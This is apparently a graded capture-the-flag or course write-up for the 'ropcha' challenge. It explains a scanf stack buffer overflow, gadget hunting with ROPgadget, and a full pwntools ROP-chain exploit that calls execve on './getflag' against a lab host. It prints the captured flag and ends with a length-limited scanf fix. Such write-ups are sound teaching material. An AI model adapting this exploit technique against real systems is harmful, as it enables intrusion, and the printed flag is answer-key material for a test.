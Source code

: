 **Name:** flofriday

**Points:** 1.0 of 1.0 Points

**Feedback:** Well done :)

<hr>

ropcha
======

Overview
--------

The program `ropcha` first asks the user for their name, than their nickname and finally wants the user to solve 10 million captchas in five seconds. However, even if the user would be able solve all captchas, the program would only print the first 16 characters of the flag.

Vulnerability
-------------

The vulnerability is a bufferoverflow in line `192` and then another in line `202`  both times the code reads a string of any length into the buffer `name` which is only 16 bytes big and thereby allowing an attacker to manipulate the stack.

Exploitation
------------

This exploit was developed during a Discord call with █████. While we discussed possible strategies, we came to our own solutions and never shared code or the flag.

Since, this is a binary exploitation, my first instinct was to just write an unlikley amount of data to the program which might trigger a bufferoverflow.

```bash
$ (python3 -c "print(b'A' * 1024)"; cat) | /challenges/ropcha/ropcha
What's your name?
Segmentation fault (core dumped)
```

From this simple experiment we already know that:

1. The bufferoverflow only got triggered after I pressed enter, which means the program waits for a newline and only after that processed the 1KiB of data.

2. There definitly is a buffer overflow and we propably overwrote the saved eip which caused the program to segfault.

3. There seams to be a no stack canary as no stack smashing was detected.

Before reading the source code, I wanted to further inspect the binary with `checksec`and `ldd`.

```bash
$ checksec /challenges/ropcha/ropcha
[*] '/challenges/ropcha/ropcha'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
$ ldd /challenges/ropcha/ropcha
    not a dynamic executable
```

From this we can read that jumping to shellcode is impossible because of the NX protection. Further, we cannot easily jump to libc as this binary is statically linked and those functions will be difficult to find if they are even in the binary. Finally, we find something weird: `checksec` found canaries while we were able overwrite the saved eip without getting any "stack smashing detected" warnings. So maybe there are canaries but they just don't seam to apply to the name reading function.

My next step was to read the sourcecode in `ropcha.c`, and I quickly found the bufferoverflow in the function `welcome_banner`: 

```c
welcome_banner(void) {
    char name[NAME_LENGTH];

    printf(msg_name);
    fflush(stdout);
    scanf("%[^\n]s", name);
```

The `scanf` here will read till a newline appears, which means that we are not limited by length for our payload. However, we also cannot contain a newline (`'\n'`  or in hex `0x0a` ) in our payload. 

In the sourcecode we also find the function `print_flag` which never actually prints the complete flag, but only the first 16 bytes of it, so jumping there won't be the solution.

From the challenge description we also know that the binary is in a sandboxed environment, where no shell is available. The only solution at this point seams to be to create a ROP-chain that will at some point execute the systemcall `execve` and executes the binary `getflag` which will print the flag.

To execute the systemcall correctly we need to fill in the registers `eax`, `ebx` , `ecx`,`edx` and at the end call interrupt `0x80`. In `edx` and `ecx` we will write zero, in `eax` we need to write `0x0B` and in `ebx` we need to write the address to a string which contains `"./getflag"`. 

This requires us to find a string/data area we can write to and a gadget to copy bytes from the stack to that area. Luckily all messages in `ropcha.c` are stored in gloabal variables so I used `msg_name` for my exploit, but every other should work as well. 

Next, I went hunting for some ROP-Gadets with `ROPgadget` and some regular expressions:

```bash
$ ROPgadget --binary ropcha > gadgets.txt
$ grep -E ": mov dword ptr \[e.x\], e.x ; ret" gadgets.txt
0x080a4404 : mov dword ptr [eax], edx ; ret    # Cannot use this one as it contains 0x0a
0x08057795 : mov dword ptr [edx], eax ; ret
$ grep -E ": int 0x80" gadgets.txt
0x08049a03 : int 0x80
$ grep -E ": pop e.x ; ret$" gadgets.txt
0x080bd696 : pop eax ; ret
0x080481d1 : pop ebx ; ret
0x080b7163 : pop ecx ; ret
0x0806eabb : pop edx ; ret
```

With that I had all my gadgets, so now I inspected the binary with `gdb` and figured out that the offset from `name` to the saved `eip` was 28 bytes and that the `msg_name` variable was at address `0x080f11ec`. 

Finally, I was ready to put it all together and created the following exploit script:

```python
from pwn import *
import sys

adr_msg_name = 0x080F11EC
padding = 28
payload = b"A" * padding

# Gadets
pop_eax = p32(0x080BD696)
pop_ebx = p32(0x080481D1)
pop_ecx = p32(0x080B7163)
pop_edx = p32(0x0806EABB)
mov_ptr_edx_eax = p32(0x08057795)
int_0x80 = p32(0x08049A03)

## Write './ge'
payload += pop_edx + p32(adr_msg_name)
payload += pop_eax + b"./ge"
payload += mov_ptr_edx_eax

## Write 'tfla'
payload += pop_edx + p32(adr_msg_name + 4)
payload += pop_eax + b"tfla"
payload += mov_ptr_edx_eax

## Write 'g\0\0\0'
payload += pop_edx + p32(adr_msg_name + 8)
payload += pop_eax + b"g\0\0\0"
payload += mov_ptr_edx_eax

# Setup the registers
payload += pop_eax + p32(0x0B)
payload += pop_ebx + p32(adr_msg_name)
payload += pop_ecx + p32(0x00)
payload += pop_edx + p32(0x00)

# Jump to int 0x80
payload += int_0x80

# Verify payload
# print(payload.hex())
if b"\n" in payload:
    print(f"Payload contains character '\\n' which cannot be passed to scanf")
    sys.exit(1)

p = remote("10.3.0.5", "31337")
# p = process("./ropcha")
p.send(payload + b"\n")
p.interactive()
```

Now we can execute the script and get the flag:

```bash
$ python3 expl.py
[+] Opening connection to 10.3.0.5 on port 31337: Done
[*] Switching to interactive mode
What's your name? WUTCTF{60_60_64d637_br34kf457}
```

Solution
--------

The program has two identical buffer overflows in line `192` and `202` however, both can be fixed by changing the affected lines to:

```c
scanf("%15[^\n]s", name);
```

With this change, we limit the number of bytes `scanf` reads to 15 which means at most, there will be 16 bytes written (15 characters plus null-terminator), which now matches the size of the `name` buffer and thereby closing the vulnability.
